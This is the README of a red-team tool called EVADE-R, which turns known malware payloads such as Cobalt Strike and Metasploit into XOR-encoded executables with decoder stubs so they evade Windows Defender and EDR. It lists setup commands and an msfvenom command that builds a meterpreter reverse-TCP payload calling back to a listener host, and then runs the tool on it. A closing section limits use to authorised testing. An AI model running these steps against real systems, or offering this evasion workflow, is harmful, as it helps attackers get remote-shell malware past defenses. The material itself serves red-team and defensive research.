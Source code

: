 <h1 align="center">
  🛡️ EVADE-R 🧠
</h1>

<p align="center">
  <i>Evasion Validator and Automated Decoder Engine for Red-teaming</i><br>
  <b>EVADE-R</b> is a Red Team utility that transmutes known payloads into new forms designed to slip past antivirus and EDR defenses—without breaking functionality.
</p>

---

## 🧬 What It Does

> Takes a known `.exe` payload → disassembles → obfuscates → recompiles → survives.

**EVADE-R** is an automated toolchain that:
- 💥 Accepts known malware signatures (e.g., Cobalt Strike, MSF payloads)
- 🧠 Decompiles and extracts `.text` section shellcode
- 🌀 Obfuscates shellcode via XOR encoding (and more coming)
- 🧪 Rebuilds a working `.exe` with runtime decoder stubs
- 🦠 Bypasses Windows Defender with ease

---

## 🛠️ Features

✅ Shellcode extractor  
✅ XOR encoder with randomized key  
✅ Runtime decoder stub injection  
✅ Minimal stub loader in C  
✅ Automated rebuild and output generation  
🚧 Looping & VT feedback (coming soon)  
🚧 Junk injection and instruction substitution (planned)

---

## ⚙️ Setup

### 📦 Requirements
- Arch Linux (or other distro)
- `mingw-w64-gcc` (`sudo pacman -S mingw-w64-gcc`)
- Python 3.10+
- `capstone`, `lief`, `keystone-engine`

### 🧱 One-Time Install

```bash
git clone https://github.com/godofthunder8756/evade-r.git
cd evade-r
chmod +x setup.sh run.sh
./setup.sh
```
## 🚀 Usage

### 🎯 Generate a detectable payload (example)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.5.0.59 LPORT=4444 -f exe -o payload.exe
🧼 Transform it with EVADE-R

./run.sh payload.exe
```

This will:

    Extract and XOR-encode the shellcode

    Insert a runtime decoder stub

    Recompile into a new executable

You’ll find the results in:
```
artifacts/
└── payload/
    ├── EVADE_payload.exe              # Final obfuscated and rebuilt payload
    ├── obfuscated_disassembly.txt     # Human-readable disassembly with obfuscation
    └── text_section.bin               # Raw extracted .text section shellcode
``` 

## 🔒 Ethical Use Only

This tool is provided strictly for ethical hacking, research, and red team training purposes.
Do not use EVADE-R on systems or networks you do not own or have explicit permission to test.

The creator assumes **no** responsibility for illegal or malicious use.


### 🧙 Author


  Made with blood, bytes, and broken detections by Aidan Ahern
